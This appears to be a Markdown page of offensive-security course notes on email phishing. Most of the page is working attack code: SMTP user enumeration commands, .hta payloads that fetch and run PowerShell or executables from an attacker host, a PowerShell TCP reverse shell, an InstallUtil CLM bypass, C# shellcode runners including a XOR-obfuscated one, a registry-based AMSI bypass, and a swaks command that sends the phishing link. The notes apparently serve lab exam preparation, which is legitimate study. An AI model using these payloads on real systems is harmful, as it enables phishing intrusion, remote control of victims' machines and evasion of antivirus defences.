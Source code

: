 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted by CLM. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**.hta > CLMBypass > NishangRevShell**
- Basically craft a hta that directs the victim to download the CLMBypass exe from your apache2 server
- Within this CLMBypass is an AMSI bypass that is downloaded from your apache2 server and then executing a somewhat obfuscated NishangRevShell (change the var names)
- The .hta code below
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell iwr -uri http://192.168.45.193/irs.exe -Outfile C:\\Windows\\tasks\\irs.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /U C:\\Windows\\tasks\\irs.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
The CLMBypass excerpt below
```csharp
String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.193/amsi.txt') | IEX;";
            String cmd2 = "$cli = New-Object System.Net.Sockets.TCPClient('192.168.45.193',443);$str = $cli.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $str.Read($bytes, 0, $bytes.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$str.Write($sbyte,0,$sbyte.Length);$str.Flush()};$cli.Close()";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
```


**C# Shellcode Runner + DOTNET2JS**
- hmm stealthy? No Powershell at least
- Spin up the dotnet2js sln file; Remember to comment out the dotnet v2 line in Program.cs of the main project
- In the ExampleAssembly's TestClass.cs, put the following code. Compiled in x64

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = <shellcode here x64>;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}

```
**XOR-ed C# Shellcode Runner + DOTNET2JS + AMSI BYPASS IN JSCRIPT**

- use our XOR_Helper to generate XOR-ed C# Shellcode
- Put the XOR-ed shellcode into the shellcode script in ExampleAssembly.dll
- Add a decryption function in the ExampleAssembly.dll after the buf variable like this
```csharp
        byte[] buf = <shellcode here x64>;

//assuming your XOR key is 0xfa
        for (int i = 0; i < buf.Length; i++)
        {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
        }

        int size = buf.Length;
```
- when your evil.js is created, open it and slam the following code at the top:
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";

try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); // neuter AMSI
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); // blocking call to Run()
	sh.RegWrite(key, 1, "REG_DWORD"); // put it back
	WScript.Quit(1);
}
```
- This should bypass a noobish Defender and AMSI
### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```